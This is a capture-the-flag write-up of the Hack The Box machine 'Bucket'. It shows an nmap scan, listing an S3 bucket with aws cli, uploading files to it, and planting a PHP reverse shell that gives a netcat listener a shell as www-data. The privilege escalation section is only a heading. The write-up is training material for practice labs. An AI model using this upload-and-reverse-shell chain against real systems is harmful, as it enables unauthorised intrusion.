 ```yaml
---
layout: writeup
category: HTB
date: 2024-12-29
comments: false
tags: aws bucket s3 awscli reverseshell php 
---
```


<br />

![1](../../../assets/images/Bucket/1.png)

<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:

<br />



<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.10.212 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-11 19:33 CEST
Nmap scan report for 10.10.10.212
Host is up (0.041s latency).
Not shown: 65221 closed tcp ports (reset), 312 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://bucket.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.65 seconds
```

<br />

Open Ports:

- `Port 22` -> ssh

- `Port 80` -> http

<br />

# Http Enumeration: -> Port 80

<br />

Visiting the website returns a `302 found` status code, redirecting to `bucket.htb`.

So, we add it to the `/etc/hosts` and we can list it contents:

<br />

![2](../../../assets/images/Bucket/2.png)

<br />

The page is completely `static` and doesn't have any function, only some hacking articles, but inspecting the `source code` we found something:

<br />

![3](../../../assets/images/Bucket/3.png)

<br />

## Amazon S3 Bucket:

<br />

It's an `Amazon S3 Bucket` subdomain!!

The site uses a bucket to `store` the images of the articles we saw earlier and most likely the rest of its `resources` as well.

<br />

![4](../../../assets/images/Bucket/4.png)

<br />

When we access the base URL, it shows the typical `"status: running"` message:

<br />

![5](../../../assets/images/Bucket/5.png)

<br />

If we do some `research` on Google we can discover how to `enumerate` a bucket with `aws cli`.

To do it, the first thing, is to `configure` this tool:

<br />

```bash
❯ aws configure
AWS Access Key ID [None]: test
AWS Secret Access Key [None]: test
Default region name [None]: us-east-1
Default output format [None]: test
```

<br />

Now we can start enumerating the available `buckets`:

<br />

```bash
❯ aws s3 ls s3:// --endpoint-url=http://s3.bucket.htb
2025-04-11 20:28:03 adserver
```

<br />

There is only one bucket on this server called `"adserver"`.

With the following command, we can see its contents:

<br />

```bash
❯ aws s3 ls s3://adserver --endpoint-url=http://s3.bucket.htb
                           PRE images/
2025-04-11 20:30:04       5344 index.html
```

<br />

And if we add the `--recursive` flag, we can see the files inside the `"images"` directory:

<br />

```bash
❯ aws s3 ls s3://adserver --endpoint-url=http://s3.bucket.htb --recursive
2025-04-11 20:32:03      37840 images/bug.jpg
2025-04-11 20:32:03      51485 images/cloud.png
2025-04-11 20:32:04      16486 images/malware.png
2025-04-11 20:32:04       5344 index.html
```

<br />

Cool, we have `access` to the bucket and we can `list` it contents.

What if we try to `upload` something?

<br />

```bash
❯ echo "This is a test to probe if we have write permissions in this bucket :D" > test.txt
❯ aws s3 cp test.txt s3://adserver/test.txt --endpoint-url=http://s3.bucket.htb
upload: ./test.txt to s3://adserver/test.txt
```

<br />

Yes! We can upload `files`!

<br />

![6](../../../assets/images/Bucket/6.png)

<br />

At this point, we can try to upload a `malicious` PHP reverse shell and if the website allows PHP `execution`, we might gain access to the victim machine.

To do it, we can use the `php` reverse shell of [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) GitHub repository:

<br />

```bash
❯ aws s3 cp reverseshell.php s3://adserver/reverseshell.php --endpoint-url=http://s3.bucket.htb
upload: ./reverseshell.php to s3://adserver/reverseshell.php
```

<br />

Now we load the `reverse shell` page and check our listener:

<br />

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.212] 33860
Linux bucket 5.4.0-48-generic 52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:06:02 up  1:41,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<br />

Perfect! We are in as `www-data`!

<br />

# Privilege Escalation: www-data -> roy

<br />
